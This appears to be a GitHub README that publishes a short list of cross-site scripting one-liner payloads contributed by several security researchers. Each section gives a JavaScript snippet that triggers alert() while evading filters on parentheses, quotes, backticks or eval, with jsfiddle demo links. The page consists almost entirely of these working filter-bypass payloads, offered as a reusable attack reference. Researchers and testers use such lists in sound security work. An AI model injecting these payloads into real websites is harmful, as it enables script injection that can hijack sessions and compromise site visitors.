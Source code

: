 # XSS oneliners payloads that rocks your nuts!

This was a list that I use often has a reference tool that I decided to publish. If you want to contribute your welcome, just tweet me at [@dsopas](https://twitter.com/dsopas) or something. Critics are always welcome!

## Without parentheses and quotes
```javascript
self[0X10f8809.toString`36`]`1`
```

Online: [https://jsfiddle.net/hx7kypv6/]() by [@aemkei](https://twitter.com/aemkei)

## Without quotes or backticks

```javascript
Object.bind(null,alert)()(1)
```

Online: [https://jsfiddle.net/w99tv481/]() by [@garethheyes](https://twitter.com/garethheyes)

## Eval without eval() and without quotes

```javascript
atob.constructor`alert\`1\````
```

Online: [https://jsfiddle.net/r4tdhs1L/]() by [@aemkei](https://twitter.com/aemkei)

## Other evading payloads

```javascript
Function('x=alert`1`','y')()
```

Online: [https://jsfiddle.net/qawpegx9/]() by [@garethheyes](https://twitter.com/garethheyes)